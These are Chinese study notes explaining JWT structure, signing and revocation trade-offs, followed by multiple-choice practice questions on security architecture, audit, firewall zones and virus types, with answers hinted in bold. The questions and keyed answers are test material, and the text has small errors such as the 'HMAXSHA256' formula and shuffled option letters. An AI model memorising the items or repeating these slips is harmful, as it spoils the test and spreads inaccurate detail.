JWT是JSON Web Token的缩写，是为了在网络应用环境间传递声明而执行的一种基于JSON的开放标准((RFC 7519)。JWT本身没有定义任何技术实现，它只是定义了一种基于Token的会话管理的规则，涵盖Token需要包含的标准内容和Token的生成过程，特别适用于分布式站点的单点登录(SSO) 场景。

JWT是由三段信息构成：

1. 头部（Header），承载两部分信息：所使用的加密算法（HMAC SHA256）和Token类型（JWT）

   ```json
   {
      "alg" : "HS256",
      "typ" : "JWT"
   }
   ```

2. 负载（Payload），存放有效信息的地方，也是一个JSON对象，JWT规定了7个官方字段供选用。除了官方字段，开发者也可以自己指定字段和内容。JWT默认是不加密的，所以不要把秘密信息放在这里。

   ```tsx
   iss (issuer) : 签发人
   exp (expiration time) : 过期时间
   sub (subject) : 主题
   aud (audience) : 受众
   nbf (Not Before) : 生效时间
   iat (Issued At) : 签发时间
   jti (JWT ID) : 编号
   ```

3. 签名（Signature），是对前两部分的签名，防止数据篡改。

   需要指定一一个密钥(secret) 。 这个密钥只有服务器才知道，不能泄露给用户。然后，使用Header里面指定的签名算法(默认是HMAC SHA256)，按照下面的公式产生签名。

   ```
   HMAXSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload),secret)
   ```

头部和负载以json形式存在，这就是JWT中的JSON，三部分的内容都分别单独经过了Base64编码，以`.`拼接成一个JWT Token。



特点：

1. JWT生成的token是无状态的，服务端不存储，即一旦生成在有效期之前一直可用，无法销毁
2. 如果需要刷新token有效期或者提前失效需要借助缓存、数据库或者redis来自己实现对应逻辑
3. JWT无状态=>不需要通过存储验证是否正确，本身可以验证
4. 手动销毁：必须借助于第三方类似黑名单的方式=> 把检测到的非法token添加到黑名单中，每次验证token是否有效要先过黑名单，如果存在黑名单中直接拒绝
5. 由于json的通用性，所以JWT是可以进行跨语言支持的

优势：是服务端不再需要存储Session，使得服务端认证鉴权业务可以方便扩展，避免存储Session所需要引入的Redis等组件，降低了系统架构复杂度。

劣势：由于有效期存储在Token中，JWT Token一旦签发，就会在有效期内-直可用，无法在服务端废止，当用户进行登出操作，只能依赖客户端删除掉本地存储的JWT Token,如果需要禁用用户，单纯使用JWT就无法做到了。

# 题目

1、信息安全策略应该全面地保护信息系统整体的安全，网络安全体系设计是网络逻辑设计工作的重要内容之一，可从物理线路安全，网络安全、系统安全、应用安全等方面来进行安全体系的设计与规划。其中，数据库的容灾属于(7)_的内容。
A. 物理线路安全与网络安全
B. 网络安全与系统安全
C. 物理线路安全与系统安全
D. 系统安全与应用安全（**数据库是系统软件，所以属于系统安全；数据库中存储业务数据，所以属于应用安全**）

2、安全审计系统（先采集信息，分析后查找异常）是保障计算机系统安全的重要手段之一，其作用不包括__(13)_. 
A.	检测对系统的入侵
B.	发现计算机的滥用情况
C.	提供系统运行的日志，从而能发现系统入侵行为和潜在的漏洞
D．保证可信网络内部信息不外泄（**审计只能发现问题，而无法实时的解决问题**）

3、防火墙把网络划分为几个不同的区域，一般把对外提供网络服务的设备（如wwW服务器、FTP服务器)放置于_(14)_区域。
A．信任网络；B.非信任网络；D.DMZ（非军事化区，**中间隔离区**)；C.半信任网络

4、如果杀毒软件报告一系列的**Word文档**被病毒感染，则可以推断病毒类型是_(15）_;如果用磁盘检测工具（CHKDSK、SCANDISK等）检测磁盘发现大量**文件链接地址**错误，表明磁盘可能被_(16)_病毒感染。
(15)A．文件型（**可执行文件**）；B.引导型；C.目录型；D．宏病毒
(16)A．文件型；B.引导型；C.目录型；D．宏病毒

5、软件安全需求的获取是根据己知的**系统信息**，如软件危害条件等以及其他一些类似的系统数据和通用惯例，完成通用软件安全性需求的裁剪和特定软件安全性需求的获取工作。

